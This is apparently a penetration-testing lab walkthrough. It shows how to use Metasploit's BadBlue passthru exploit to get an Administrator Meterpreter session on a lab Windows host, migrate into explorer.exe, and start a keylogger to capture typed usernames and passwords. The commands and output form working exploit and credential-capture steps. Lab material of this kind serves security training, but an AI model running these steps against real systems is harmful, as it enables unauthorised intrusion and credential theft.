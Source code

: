 Target IP Address: 10.2.23.135

We'll enable the keylogger and then head over to the target system, type in a few usernames and passwords. We're enter some data with a keyboard and then see that indeed it does work.

The reason we're starting the PostgreSQL Database Service in this case is because all of the keystrokes will be saved within the Metasploit Framework database within our current workspace.

```
service postgresql start && msfconsole
workspace -a Keylogging
search badblue
setg RHOSTS 10.2.23.135
use exploit/windows/http/badblue_passthru
show options
set target BadBlue\ EE\ 2.7\ Universal
exploit
```

Perform some quick enumeration here.

```
meterpreter > sysinfo
Architecture : x64
Meterpreter : x86/windows
meterpreter > getuid # Get user id
Server username: WIN-OMCNBKR66MN\Administrator
```

We currently have Administrator access.

Get started with the keylogging.

But before we do that, I'm going to migrate to the Explorer.exe process because, for some reason, the keylogging functionality within Meterpreter doesn't work very well when it's not done on the Explorer process or when we don't have access or Meterpreter's not running within the Explorer process.

Search for Explorer.exe.

```
meterpreter > pgrep explorer
2312
```

And we can migrate to 2312.

```
meterpreter > migrate 2312
```

That will give us a 64-bit Meterpreter session.

Open up the documentation for Meterpreter.

```
meterpreter > help
Stdapi: User interface Commands
================================
Command            Description
-------            -----------
keyscan_dump       Dump the keystroke buffer
keyscan_start      Start capturing keystrokes
keyscan_stop       Stop capturing keystrokes
```
